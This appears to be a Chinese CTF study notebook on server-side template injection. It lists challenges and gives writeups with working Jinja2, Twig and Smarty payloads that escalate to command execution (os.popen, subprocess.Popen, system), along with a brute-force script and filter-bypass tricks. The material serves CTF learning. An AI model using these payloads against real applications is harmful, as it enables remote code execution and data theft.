




# SSTI

[toc]

## 目录

### 简单

-   ~~[CSCCTF 2019 Qual]FlaskLight~~

### 签到

-   ~~[BJDCTF2020]Cookie is so stable twig模板注入~~
-   ~~[WesternCTF2018]shrine 想方设法获取config~~
-   ~~[CISCN2019 华东南赛区]Web11 smarty模板注入~~
-   ~~[BJDCTF2020]The mystery of ip 简单的flask注入~~
-   ~~[GYCTF2020]FlaskApp debug模式一定条件下可以窃取出来pin码命令执行，但是题目过滤的不够严格导致可以直接打，比签到难一点~~
-   [pasecactf_2019]flask_ssti 编码绕过
-   [GWCTF 2019]你的名字
-   [CISCN2019 总决赛 Day1 Web3]Flask Message Board

### 中等

-   [护网杯 2018]easy_tornado 因为框架比较冷门，如果不看WP的话需要自己手动翻手册，我觉得算中上偏难的题目。
-   [CISCN2019 华东南赛区]Double Secret 国赛半决赛因为大家互相出题所以都互相恶心，这题整个MD4，线下环境怎么打？
-   

### 困难

-   [QWB2021 Quals]托纳多

### 脑洞

-   [RootersCTF2019]I_<3_Flask 用name注入。？怎么想到的

## Writeup

### 简介

SSIT：服务器端模板注入（Server-Side Template Injection）

>   当前使用的一些框架，比如python的flask，php的tp，java的spring等一般都采用成熟的的MVC的模式，用户的输入先进入Controller控制器，然后根据请求类型和请求的指令发送给对应Model业务模型进行业务逻辑判断，数据库存取，最后把结果返回给View视图层，经过模板渲染展示给用户。
>
>   漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性。
>
>   凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是，沙盒绕过只是由于模板引擎发现了很大的安全漏洞，然后模板引擎设计出来的一种防护机制，不允许使用没有定义或者声明的模块，这适用于所有的模板引擎






### [CSCCTF 2019 Qual]FlaskLight

>   https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
>
>   https://xz.aliyun.com/t/9584#
>
>   https://misakikata.github.io/2020/04/python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E4%B8%8ESSTI/#%E7%89%B9%E6%AE%8A%E5%87%BD%E6%95%B0%E6%9F%A5%E6%89%BE
>
>   https://www.cnblogs.com/bmjoker/p/13508538.html

过滤了['url_for', 'listdir', 'globals']

{{7*7}}，存在模板注入

```
__class__ #返回type类型，查看对象的类型
__bases__ #返回tuple类型，列出该类的基类
__mro__   #返回tuple类型，给出解析方法调用的顺序
__subclasses__() #返回内建方法builtin_function_or_method，获取一个类的子类
__globals__ #返回dict类型，对函数进行操作，获取当前空间下能使用的模块、方法、变量
```


`__class__`：用来查看变量所属的类，根据前面的变量形式可以得到其所属的类。 

`__bases__`：用来查看类的基类，也可以使用数组索引来查看特定位置的值。 通过该属性可以查看该类的所有直接父类，该属性返回所有直接父类组成的**元组**（虽然只有一个元素）。注意是直接父类！！！

获取基类还能用 `__mro__` 方法，`__mro__` 方法可以用来获取一个类的调用顺序，比如：

找object基类：

```
{{''.__class__.__mro__[2]}}
```

`__subclasses__()`：查看当前类的子类组成的列表，即返回基类object的子类。

爆出所有类：

```
{{''.__class__.__mro__[2].__subclasses__()}}
```

利用脚本找subprocess.Popen这个类，

```python
import requests

url = "http://04f772b7-efbb-45fb-983e-873c357519b7.node4.buuoj.cn:81/"

for i in range(1, 1000):
    payload = "?search={{[].__class__.__bases__[0].__subclasses__()[%s]}}" % i

    r = requests.get(url+payload).text
    print(str(i)+" no")
    if 'subprocess.Popen' in r:
        print(str(i)+"yes")
        break
```

第258个

直接读：

`{{[].__class__.__bases__[0].__subclasses__()[258]('ls /;cd flasklight;ls;cat coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}`

或者直接拼接

```python
{{"".__class__.__mro__[2].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen("ls").read()}}
```

### [BJDCTF2020]Cookie is so stable twig

提示看cookie，在user处注入：

```
{{7*'7'}} 回显7777777 ==> Jinja2
{{7*'7'}} 回显49 ==> Twig 
```


`{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("cat /flag")}}`

## [WesternCTF2018]shrine


```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

黑名单是self和config，python还有一个函数叫做url_for，其作用是url是用于构建指定函数的URL，在配合**globals()**，该函数会以字典类型返回当前位置的全部全局变量。这样也可以实现查看的效果



`/shrine/{{url_for.__globals__['current_app'].config}}`


### [CISCN2019 华东南赛区]Web11 smarty

`X-Forwarded-For: a{*comment*}b`，返回ab，是smarty框架。

`{$smarty.version}`可以看版本，3.1.30

**利用方式：**

#### {php} 标签

`{php}{/php}`这样包含php指令，但是3.1.30已经移除这个标签

#### {literal} 标签

 {literal}可以让块中间的内容忽略Smarty的解析。我们可以使用

```
{literal}<script language="php">phpinfo();</script>{/literal}
```

但是php7已经不支持`<script language="php">`这种写法了。

#### {if} 标签

每个{if}必须有一个配对的{/if}. 也可以使用{else} 和 {elseif}. 全部的PHP条件表达式和函数都可以在if内使用。
也就是说我们把php代码写在`{if PHP代码}{/if}` 就可以了，PHP代码可以被执行。

```
{if system('cat /flag')}{/if}
```

后面不需要分号

### [BJDCTF2020]The mystery of ip

和上题一样，都是smarty框架，payload也一样。


### [GYCTF2020]FlaskApp

>   flask开debug相当于开了后门：https://zhuanlan.zhihu.com/p/32138231

decode：



应该过滤了flag，import，os等关键词。

利用字符串拼接找目录

```python


  
  
    
      {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("ls /").read()') }}
    
  
  


```

读flag：

```python


  
  
    
      {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("cat /this_is_the_fl"+"ag.txt").read()') }}
    
  
  


```

### [pasecactf_2019]flask_ssti

`.`和`_`和`''`被过滤了，可以十六进制绕过

`{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()}}`


由于flag最初是存放在文件中，后由app.py读取后删除了该文件，所以可以利用这一点访问/proc/self/fd/，在其中的3即使此前打开的flag文件。

`{ {()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/fd/3")}}`

